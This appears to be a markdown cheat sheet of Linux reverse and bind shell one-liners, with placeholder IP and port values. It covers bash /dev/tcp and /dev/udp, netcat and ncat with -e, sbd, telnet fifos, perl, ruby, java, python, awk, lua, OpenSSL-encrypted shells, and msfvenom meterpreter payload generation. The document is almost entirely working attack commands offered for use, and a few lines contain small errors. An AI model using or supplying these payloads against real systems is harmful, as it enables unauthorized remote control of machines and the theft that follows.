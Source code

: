 # Linux Shells

## Bash TCP
##### Listener
```bash
bash -i >& /dev/tcp/[IP]/[Port] 0>&1
```
##### Shell
```sh
0<&123;exec 123<>/dev/tcp/[IP]/[Port]; sh <&123 >&123 2>&123
```

## Bash UDP
##### Listener
```sh
nc -u -lvp [PORT]
```
##### Shell
```bash
sh -i >& /dev/udp/[IP]/[PORT] 0>&1
```

## nc
##### Listener
```bash
nc -nvlp [PORT] -e /bin/bash
```
##### Shell
```bash
nc [IP] [PORT] -e /bin/bash
```
```bash
rm -f /tmp/p; mknod /tmp/p p && nc [IP] [PORT] 0/tmp/p
```

## ncat
##### Listener
```bash
ncat --exec cmd.exe --allow [IP] -vnl [PORT] --ssl
```
##### Shell
```bash
ncat -nv [IP] [PORT]
```

## sdb
##### Listener
```bash
sbd -lp [PORT] -k secret -e /bin/bash
```
##### Shell
```bash
sbd -k secret [IP] [PORT]
```

## telnet
##### Shell
```bash
rm -f /tmp/f; mkfifo /tmp/f
telnet [IP] [PORT] 0</tmp/f | sh >/tmp/f 2>&1
```
```bash
rm -f /tmp/p; mknod /tmp/p p && telnet [IP] [PORT] 0/tmp/p
```
```bash
telnet [IP] [PORT] | /bin/bash | telnet [IP] [PIPED-PORT]
```

## perl
```perl
perl -e 'use Socket;$i=[RT-IP];$p=[PORT];socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## ruby
```ruby
ruby -rsocket -e'f=TCPSocket.open([IP],[PORT]).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
```ruby
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("[IP]","[PORT]");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```
## java
```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/[IP]/[PORT];cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
```java
Runtime r = Runtime.getRuntime();
Process p = r.exec("/bin/bash -c 'exec 5<>/dev/tcp/[IP]/[PORT];cat <&5 | while read line; do $line 2>&5 >&5; done'");
p.waitFor();
```

## python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(([IP],[PORT]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
```python
export RHOST="[IP]";export RPORT=[PORT];python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[IP]",[IP]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[IP]",[PORT]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

##### IPv6
```python
python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("[IPV6ADDR]",[PORT],0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");'
```

##### Spawn Shell
```python
python -c 'import os; os.system("/bin/sh")'
```
```python
python -c "import pty;pty.spawn('/bin/bash')"
```

## Awk
```sh
awk 'BEGIN {s = "/inet/tcp/0/[IP]/[PORT]"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

## Lua
```powershell
lua -e "require('socket');require('os');t=socket.tcp();t:connect('[IP]','[PORT]');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```
```powershell
lua5.1 -e 'local host, port = "[IP]", [PORT] local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, "r") local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'
```
## OpenSSL

##### Create Certificates
```sh
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 180 -nodes
```
##### Start Server
```sh
openssl s_server -quiet -key key.pem -cert cert.pem -port [PORT]
```
##### Alternate Server With Netcat
```sh
ncat --ssl -vv -l -p [PORT]
```
##### Victim Connection
```sh
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect [IP]:[PORT] > /tmp/s; rm /tmp/s
```

## Metasploit
##### Staged reverse TCP
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[IP] LPORT=[PORT] -f elf -o [NAME].elf
```
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[IP] LPORT=[PORT] -f elf > [NAME].elf
```

##### Stageless reverse TCP
```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=[IP] LPORT=[PORT] -f elf -o [NAME].elf
```

